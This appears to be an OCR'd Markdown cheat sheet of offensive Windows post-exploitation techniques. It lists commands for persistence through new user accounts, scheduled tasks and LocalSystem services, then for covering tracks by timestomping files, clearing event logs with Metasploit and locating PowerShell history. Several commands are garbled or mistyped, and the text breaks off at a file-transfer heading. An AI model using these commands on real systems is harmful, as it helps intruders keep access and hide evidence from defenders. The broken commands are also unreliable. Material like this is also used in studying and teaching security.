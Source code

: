 # Persistence
## Account Creation
```cmd
net user /add
```
* Attacker can use this to RDP, WinRM or SSH. 
## Scheduled Tasks
* Works the same way as cron jobs. 
View scheduled tasks
```cmd
schtasks /query
```
Create a task
```cmd
schtasks /CREATE /SC DAILY /TN "<NAME>" /TR "<what file to run>"
```
## Services
* Have a service that occurs whenever a machine beacons back or listens for a connection. 
* Requires at least admin rights, leaves lots of artifacts. 
```cmd
sc create <name> binpth= "cmd.exe /k <file>" start="auto" obj="LocalSystem"
```
```cmd
sc start persistence
```

```powershell
New-Service -Name "<name>" -BinaryPathName "<file to run>" -Description "<desc>" StartupType Automatic 
```
```powershell
sc start persistence 
```
# Logs
* Windows are in 5 categories 
	1. Application
	2. Security
	3. Setup
	4. System
	5. Forwarded Events
## Crash Dumps
* Located in `%SystemRoot%Minidump.dmp`
## Clearing up 
Change information the logs
```powershell
$(Get-Item <filename>).creationtime=$(Get-Date "mm/dd/yyyy")
```
```powershell
$(Get-Item <filename>).lastacccesstime=$(Get-Date "mm/dd/yyyy")
```
```powershell
$(Get-Item <filename>).lastwritetime=$(Get-Date "mm/dd/yyyy")
```

### Clear Logs with Metasploit
```msf
run clearlogs
```
Clear a specific type of log
```ruby
irb
log = client.sys.evenlog.open('system'
log.clear)
```

```
### Initial Actions
Disable powershell history
```Powershell
(Get-PSReadlineOption).HistorySavePath
```
#### Transfer files to 
```
%systemdrive%/
```
